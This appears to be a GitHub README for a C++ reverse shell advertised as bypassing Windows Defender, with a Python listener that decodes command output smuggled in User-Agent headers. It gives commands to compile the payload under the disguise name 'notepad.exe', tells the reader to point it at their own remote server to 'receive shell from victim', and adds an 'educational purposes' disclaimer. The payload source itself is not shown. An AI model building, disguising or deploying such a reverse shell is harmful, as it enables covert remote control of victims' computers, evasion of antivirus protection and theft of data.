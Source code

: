 # Interative ReverseShell bypass Microsoft Window Defender

A simple ReverseShell written in C++, and listening server written in Python

## I. Installation

- ***Mingw***:
    *note that I try to use Microsoft Visual Studio to build exe but I got a lot of errors with lib and header file, you can use MVS if you want, or install Mingw like me*

```bash
sudo apt-get update
sudo apt-get install mingw-w64 -y
```
## II. Usage
### 1. Build virus
***Note:*** *Inspect source in virus.cpp and change sourceip and port to your remote server that hosts server.py (receive shell from victim) then build it using mingw*
```bash
x86_64-w64-mingw32-g++ -o notepad.exe virus.cpp  -static-libgcc -static-libstdc++ -lwininet
```

### 2. Run listening server
***Note:*** *This server.py will listen incomming GET request, extract Agent header and decode to human readable data (result returns from command)*
```python
python3 server.py
```

Run notepad.exe connection will be established to remote server, run any command.

**Server**:

![plot](./images/serverpy.png)

**Client**

![plot](./images/viruscpp.png)

## III. Contributing

- Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.
- Please make sure to update tests as appropriate.
## IV. Disclaimer
- There is no clean code, no penetration test provided, this repo is only for educational purposes. If you got trouble with this, please contact me.
## Support me (optional)
If you find it useful, you can support me with a cup of coffee.
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2123O0D)
